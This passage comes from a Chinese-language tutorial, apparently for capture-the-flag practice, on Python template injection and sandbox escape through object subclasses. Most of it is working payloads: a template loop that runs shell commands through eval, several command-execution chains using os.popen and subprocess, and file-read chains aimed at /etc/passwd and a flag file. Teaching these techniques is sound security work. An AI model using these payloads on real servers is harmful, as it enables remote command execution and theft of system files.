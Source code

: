 当然你也可以直接在python中完成识别后直接构建payload提交，比如下面的模板语法就完美实现了这一点：

```python
 # 模板语法 _ 命令执行_eval
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    {% endif %}
{% endfor %}
```

模板语法我们下一节会细讲，现在让我们把目光移回到子类上面。

==还有其他的一些子类也能达到 eval 的效果，见下图：==

![image-20231129164759866](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737760.png)

### 命令执行

在构造命令执行的 payload 的时候，要==注意一些函数的回显和返回值。==

```python
# eval 
x[NUM].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') 

# os.py
x[NUM].__init__.__globals__['os'].popen('ls /').read()

# popen
x[NUM].__init__.__globals__['popen']('ls /').read()

# _frozen_importlib.BuiltinImporter
x[NUM]["load_module"]("os")["popen"]("ls /").read()

# linecache
x[NUM].__init__.__globals__['linecache']['os'].popen('ls /').read()

# subprocess.Popen
x[NUM]('ls /',shell=True,stdout=-1).communicate()[0].strip()
```

### 文件读取

由于Python2中的 File 类在 Python3 中被去掉了，所以目前也就 **FileLoader ( _frozen_importlib_external.FileLoader)** 算真正意义上原生的文件读取

```python
[].__class__.__bases__[0].__subclasses__()[NUM]["get_data"](0,"/etc/passwd")
```

其他文件读取的方法无非还是在命令执行的基础上去导入文件操作的包 ( 为了方便，我们使用 X 代表基类 )

```python
- codecs模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('codecs').open('/app/flag').read()") 

- pathlib模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('pathlib').Path('/app/flag').read_text()") 

- io模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('io').open('/app/flag').read()")

- open函数
x[NUM].__init__.__globals__['__builtins__'].eval("open('/app/flag').read()")
```
